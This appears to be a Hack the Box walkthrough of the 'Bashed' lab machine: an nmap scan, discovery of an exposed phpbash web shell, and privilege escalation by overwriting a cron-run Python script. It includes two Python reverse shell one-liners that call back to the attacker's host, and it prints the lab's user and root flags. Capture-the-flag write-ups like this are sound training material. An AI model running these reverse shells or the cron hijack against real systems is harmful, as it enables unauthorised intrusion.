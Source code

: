 ```yaml
---
title: Bashed - Hack the Box
date: 2024-10-13 12:29:11 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bashed.png
---
```

---
title: Bashed - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bashed.png
---
---
title: 2024-10-12-Bashed - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Bashed.png
---
![Image](/assets/Bashed.png)

Bashed is an easy machine on the HTB platform. Attackers must utilize their knowledge of web enumeration, scripting, and processes/permissions to achieve root access. There is quite a bit to be gained from diving into this machine, so lets start with our nmap scan.

### Reconnaissance

```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 08:45 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.42 seconds

```

Simple scan here, as the only port available to is port `80`. At the time, I'd no familiarity with other batch scan tools like `autorecon` and `nmapAutomator`. However, luckily this was the intended vector for the machine. It is always important to thoroughly enumerate these scans for everything. Write down each open port and what services are running on them.

### Enumeration

Seeing as the website is the only vector we have access to, we can be confident and aggressive in our approach.

 ![Image](/assets/Screenshot 2024-09-06 at 8.51.26 AM.png) 

The landing page offers us some information about `phpbash` as a tool, and we can do our due diligence to find out that it's essentially a web shell. Given the name of this box, I'd assume we were looking for a way to access a session hidden away in the directories of the server. We can use a directory-busting tool to enumerate further and we can also do so recursively should we need to pry further. I want to note, I used the `subdomain` wordlist here, but the `dirbuster 2.3 Medium` works as well.

![Image](/assets/Screenshot 2024-09-06 at 8.52.13 AM.png)

### Initial Access

It takes a while to know what to look for in terms of uncommon or vulnerable configurations in terms of web directories. There are some rabbit-holes indeed. Keep in mind, though, I've mentioned in another writeup that things like `/dev/` are always of interest, and that's exactly what we get here.

![Image](/assets/Screenshot 2024-09-07 at 8.27.20 AM.png)

We can see two files, but we're only interested in the second as it provides us with the aforementioned web shell.

![Image](/assets/Screenshot 2024-09-07 at 8.27.55 AM.png)

While it's great to get an initial foothold into the system, it's also important to acknowledge the limitations of an environment like this. We can query a bit with commands like `whoami` and `sysinfo`, but we'd like to get a stable shell with functionality as soon as we can. We can start our listener `rlwrap nc -nlvp 443` to have it catch our call-back shell. Which call-back you use is very preferential and takes trial and error, and in this case, a python script from
http://revshells.com did the trick.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![Image](/assets/Screenshot 2024-09-14 at 11.23.21 AM.png)

Now that we've caught our shell, we can do ourselves a great favor by looking to stabilize. We can check which python version is installed with `which python`. In this case, we've got `python` instead of `python3`:

`TARGET: python -c 'import pty; pty.spawn("/bin/bash")'`
`TARGET: BACKGROUND THE PROCESS WITH ^Z`
`HOST: stty raw -echo;fg`
`TARGET: export TERM="xterm"`

Now, we can `cd` our way around to find the flag, usually within a users `/Desktop` directory.

`USER: b400f51178e32772ec99c792dd8b3465`

### Privilege Escalation

In order to get a sense of what we've got access to and what we do not, `sudo -l` and `ps -aux` are critical.

![Image](/assets/Screenshot 2024-09-14 at 11.34.28 AM.png)

Here, we can see that we've got unrestricted access to commands as scriptmanager. We'll need to switch users in order to make that happen. `sudo` has a tag where you care able to switch users with `-u`, and we can specify which user and the environment we need to be spawned in `/bin/bash`

`sudo -u scriptmanager /bin/bash`

Once switched over, we can mosey around looking for ways to move vertically. Given the name of our user, `scripts` is an interesting directory that requires a look.

![Image](/assets/Screenshot 2024-09-14 at 11.43.24 AM.png)

We can see the test script `test.py`, and it looks like it's being called every few minutes or so. All it does is write "Testing 123" to a file called `test.txt`. We assume a cronjob is calling it, given the periodical nature of its function. We can overwrite the file with a call-back shell to another listener. `rlwrap nc -nlvp 4444`

Overwrite the function with the script:

```
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")" > test.py
```

After a few minutes, we'll get a call-back on our listener

![Image](/assets/Screenshot 2024-09-14 at 12.07.58 PM.png)

 `ROOT:9aeb0d2bbee15d2405ee1a0cd24a9a5b`

#linux #easy #manual 
